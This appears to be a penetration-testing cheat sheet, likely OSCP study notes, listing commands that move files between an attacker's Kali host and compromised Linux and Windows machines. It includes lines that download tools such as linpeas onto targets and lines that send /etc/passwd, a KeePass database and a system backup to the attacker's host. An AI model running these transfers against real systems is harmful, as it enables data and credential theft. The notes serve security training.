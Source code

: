 ## Download File to Target

Hosting a file on kali

- python3 -m http.server $port#

Getting file on linux box

- wget http://192.168.45.224:8000/linpeas.sh
- curl -O http://192.168.45.161:80/linpeas.sh

Getting a file on window box

- certutil.exe -urlcache -f http://kali-ip:port/filename filename
- iwr -uri http://kali-ip:port/fileName -Outfile fileName
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "iwr -uri http://10.10.139.147:1235/testfile.txt -Outfile testfile.txt"

---

## Download File to Kali

#### Linux -> Linux:

Start SSH on Kali

- sudo systemctl start ssh
- sudo systemctl status ssh
- sudo systemctl stop ssh

Copy File from Window Box

- scp sitebackup1.zip kali@192.168.45.231:~/Desktop/OSCPA

#### Linux -> Linux:

Target Linux box

- nc -nv 192.168.45.207 80 < /etc/passwd

Kali Box

- nc -nvlp 80

#### Linux -> Linux:

Target Linux

- python3 -m http.server 8080

Kali

- wget http://target-ip/port/file_name

#### Window -> Kali 1

Set up share-drive on kali

- impacket-smbserver -smb2support test . -username kali -password kali

Window

- net use \\\kali-ip\test /user:kali kali
- copy Database.kdbx \\192.168.45.161\test

#### Window -> Kali 2

Kali

- sudo service ssh start

Window

- C:\Users\jason\Documents> scp system.bak kali@192.168.45.161:/home/kali/Desktop/oscp/module23/
